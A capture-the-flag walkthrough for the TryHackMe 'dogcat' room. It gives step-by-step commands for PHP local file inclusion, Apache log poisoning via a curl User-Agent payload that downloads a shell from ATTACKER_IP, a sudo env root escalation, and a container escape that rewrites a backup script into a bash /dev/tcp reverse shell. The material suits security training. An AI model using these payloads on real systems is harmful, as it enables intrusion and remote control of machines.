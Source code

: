 # [dogcat](https://tryhackme.com/room/dogcat)

## I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

---

### What is flag 1?

_There's more to *view* than just cats and dogs..._

1. Perform directory enumeration to discover hidden files and directories on the web server

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,js
```

![SCREEN01](https://github.com/user-attachments/assets/7ce0f911-1f67-4725-a53a-05b0af094aa5)

2. The `http://IP/?view=php://filter/convert.base64-encode/resource=cat/../flag` url returns `PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=` which is Base64 encoded flag:

![SCREEN02](https://github.com/user-attachments/assets/0788eb99-2493-4bd3-888e-86b918a4a6ef)

![SCREEN03](https://github.com/user-attachments/assets/fce28dcb-d994-4c48-843e-e40ead3a0578)

---

### What is flag 2?

1. Access the index.php file in `http://IP/?view=php://filter/convert.base64-encode/resource=cat/../index` to understand the application structure

2. Access Apache access logs in `http://IP/?view=cat/../../../../../var/log/apache2/access.log&ext=` for log poisoning

3. Execute reverse shell through log poisoning attack
   - Create netcat listener on attacking machine
   - Create Python HTTP server to serve the PHP reverse shell
   - Create [php reverse shell file](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php)
   - Inject PHP code into logs via User-Agent header. The curl command might need to be executed twice
   - Navigate to `http://IP/shell.php` to execute the reverse shell

```bash
nc -lvnp 4444
```

```bash
python -m SimpleHTTPServer
```

```bash
curl -A "<?php file_put_contents('shell.php', file_get_contents('http://ATTACKER_IP:8000/shell.php')); ?>" "http://TARGET_IP?view=/cat/../../../../var/log/apache2/access.log&ext"
```

4. With reverse shell executed, locate the second flag

```bash
find / -type f -name "*flag2*" 2>/dev/null
cat /var/www/flag2_QMW7JvaY2LvK.txt
```

![SCREEN04](https://github.com/user-attachments/assets/bd70cf13-9d49-4c5d-8cdc-bc50f9a04ef0)

---

### What is flag 3?

1. Upgrade shell, check for sudo privileges, and escalate to root

```bash
script /dev/null -c bash
sudo -l
sudo /usr/bin/env /bin/bash
```

![SCREEN05](https://github.com/user-attachments/assets/faa974cb-09c0-48b9-9ea5-7e9bcf0bc970)

2. Find the third flag with root privileges

```bash
find / -type f -name "*flag3*" 2>/dev/null
cat /root/flag3.txt
```

![SCREEN06](https://github.com/user-attachments/assets/6c6ea9e5-d446-4001-b8ca-5f8dbe5cf76a)

---

### What is flag 4?

1. Investigate backup scripts that may be executed automatically

```bash
ls -la /opt/backups
cat /opt/backups/backup.sh
```

![SCREEN07](https://github.com/user-attachments/assets/0366db76-617d-4e4f-beb6-198748947f60)

2. Set up listener and modify backup script for container escape

```bash
nv -lvnp 5555
```

```bash
cd /opt/backups
printf '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' > backup.sh
```

![SCREEN08](https://github.com/user-attachments/assets/a617895e-0cd7-4097-ad1f-9d7b9ff3812d)

3. Wait for the automated execution and retrieve the fourth flag

```bash
cat flag4.txt
```

![SCREEN09](https://github.com/user-attachments/assets/2be4bd35-c832-42f3-ae14-70179d26d389)

